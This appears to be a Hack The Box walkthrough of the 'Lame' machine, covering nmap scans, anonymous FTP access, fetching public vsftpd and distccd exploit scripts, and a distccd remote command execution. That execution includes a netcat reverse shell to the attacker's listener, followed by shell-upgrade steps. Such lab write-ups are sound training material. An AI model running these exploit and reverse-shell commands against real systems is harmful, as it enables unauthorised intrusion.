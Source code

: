 # _**Lame**_

## Index
* Scanning
	* Nmap
* Enumeration 
	* Ftp

## Scanning

### Nmap

* sudo nmap -sS -p- -Pn -n --open --min-rate 5000 -vvv 10.10.10.3 -oG allPorts
* nmap -sC -sV -p21,22,139,445,3632 -Pn -n 10.10.10.3 -oN targeted

>PORT     STATE SERVICE     VERSION
**21/tcp**   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.11
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
**22/tcp**   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
**139/tcp**  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
**445/tcp**  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
**3632/tcp** open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_clock-skew: mean: -3d00h53m55s, deviation: 2h49m44s, median: -3d02h53m57s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-09-30T10:57:48-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

## Enumeration

### FTP

* ftp 10.10.10.3

>Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:gato): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
ftp>

* searchsploit vsftpd 2.3.4

![img1](img1.png)
oh... please no...

search in google for vsftpd exploit github
https://github.com/ahervias77/vsftpd-2.3.4-exploit/blob/master/vsftpd_234_exploit.py
![img2](img2.png)
nothing...

### vsftpd 3.8.2

* wget https://raw.githubusercontent.com/ahervias77/vsftpd-2.3.4-exploit/master/vsftpd_234_exploit.py

### distccd

* wget https://gist.githubusercontent.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855/raw/48ab4eb0bd69cac67bc97fbe182e39e5ded99f9f/distccd_rce_CVE-2004-2687.py

python distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -c "whoami"
![img3](img3.png)

* Reverse shell
>	* RCE
python distccd_rce_CVE-2004-2687.py -t 10.10.10.3 -c "nc -e /bin/bash 10.10.14.11 4547"
![img4](img4.png)
>	* Listening
rlwrap nc -lvp 4547
![img5](img5.png)

### Samba (Another form)
![img8](img8.png)
![img9](img9.png)

![img11](img11.png)

### How to set up a full TTY

```bash
script /dev/null -c bash
# ctrl + z
stty -a
stty raw -echo
fg # it doesn't show on the screen
reset
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
```

### User flag

![img6](img6.png)

### Root flag

![img7](img7.png)
